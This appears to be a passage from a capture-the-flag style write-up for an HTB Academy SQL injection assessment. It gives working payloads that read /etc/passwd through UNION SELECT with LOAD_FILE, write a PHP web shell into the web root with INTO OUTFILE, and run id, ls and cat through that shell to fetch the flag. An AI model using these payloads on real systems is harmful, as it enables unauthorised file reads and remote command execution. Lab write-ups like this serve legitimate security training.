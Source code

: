 PAYLOAD
-------

```
cn' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4,5-- -
```
this will show us the passwd file data so we can read it we can use it to get source files as we know the location is `/var/www/html/dashboard/dashboard.php and /var/www/html/index,php`

So now we write php webshell to the system to get remote code execution on the server we can do this with the following payload

PAYLOAD
-------

```
cn' union select "",'<?php system($_REQUEST[0]); ?>', "", "","" into outfile '/var/www/html/dashboard/shell.php'-- -
```
this will make a file called shell.php on the server and we can use ?0=<command> parameter to execute commands on the server like this
```
http://SERVER_IP:PORT/dashboard/shell.php?0=id
```
This payload will show us the command result of id command on the page if everything is going right so to that we have the command execution on the server so now we can read the flag to the root directory(/) of the server but first we have to know the name of the file so we use ls command on the root directory that show us all the files and directory of the server root directory so the url is like the following 
```
http://SERVER_IP:PORT/dashboard/shell.php?0=ls /
```
After that we can see all the files in the dirctory so there is a file name  flag_cae1dadcd174.txt that contain the flag we can read it with cat command so now the url become like the following 
```
http://SERVER_IP:PORT/dashboard/shell.php?0=cat /flag_cae1dadcd174.txt
```
this will show us the flag that we submit to the HTB Academy Assessment part 

NOTE: we can read that file with load_file query but we dont know the file name in that step so as now we know it so we can read it now like the following payload

PAYLOAD
-------

```
cn' UNION SELECT 1, LOAD_FILE("/flag_cae1dadcd174.txt"), 3, 4,5-- -
```

So thats it 

enjoy and Happy Hacking :)

